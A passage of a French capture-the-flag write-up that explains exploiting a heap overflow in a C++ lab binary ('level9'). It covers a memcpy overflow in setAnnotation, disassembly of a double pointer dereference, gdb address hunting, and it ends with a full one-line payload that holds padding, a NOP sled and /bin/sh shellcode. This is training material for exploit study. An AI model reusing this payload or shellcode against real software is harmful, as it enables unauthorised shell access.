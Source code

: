 Cette fois, le programme est en c++, avec une classe N. On remarque qu'il n'y a pas d'appel à /bin/sh, on suppose qu'on va devoir injecter un shellcode. Il y a aussi l'utilisation de la fonction memcpy dans la fonction setAnnotation de la classe N, qui va permettre de faire un overflow.

Le seul problème est que le pointeur est déférencé deux fois au moment du return d'EIP:
```
08048677 e8 92 00        CALL       N::setAnnotation                                 undefined setAnnotation(N * this
            00 00
0804867c 8b 44 24 10     MOV        nClass2,dword ptr [ESP + 0x10]=>local_20
08048680 8b 00           MOV        nClass2,dword ptr [nClass2]
08048682 8b 10           MOV        EDX,dword ptr [nClass2]
08048684 8b 44 24 14     MOV        nClass2,dword ptr [ESP + 0x14]=>local_1c
08048688 89 44 24 04     MOV        dword ptr [ESP + 0x4]=>local_2c,nClass2
0804868c 8b 44 24 10     MOV        nClass2,dword ptr [ESP + 0x10]=>local_20
08048690 89 04 24        MOV        dword ptr [ESP]=>local_30,nClass2
08048693 ff d2           CALL       EDX

```
Ce qui équivaut globalement à la syntaxe `(nPointer2->*nPointer2->operatorFunctionPointer)(*nClass1)`. 

En conséquence, le code va se rendre sur la première adresse pointée par EIP, puis prendre l'adresse à ce nouvel emplacement, se rendre dessus, ET uniquement à partir de là reprendre l'exécution du code. Donc il va falloir utiliser deux adresses mémoires.

Il faut donc trouver l'adresse mémoire de la string. On ouvre level9 dans gdb, on met un breakpoint juste après l'appel à setAnnotation, puis on print $eax. On voit que c'est 0x0804a00c.

L'adresse qui va override EIP en premier doit se trouver après 108 chars. On fait pointer sur l'adresse qu'on vient de trouver. Ensuite, on peut faire pointer sur la zone entre buffer[4] et buffer[107], ou bien pointer après la string. Faire après nous donne plus d'espace pour faire une longue nopsled donc on par sur après. Si on regarde $eax après avoir rempli le buffer de A, on peut voir que les addresses à partir de 0x0804a07c peuvent être ciblées. On part sur 0x0804a18c pour être large.

Donc le payload final ressemble à

`./level9 $(python -c "print '\x8c\xa1\x04\x08' + 'A' * 104 + '\x0c\xa0\x04\x08' + '\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")`
 on met la valeur pour atteindre l'offset, puis au bout, la valeur de la mémoire pour atteindre la string 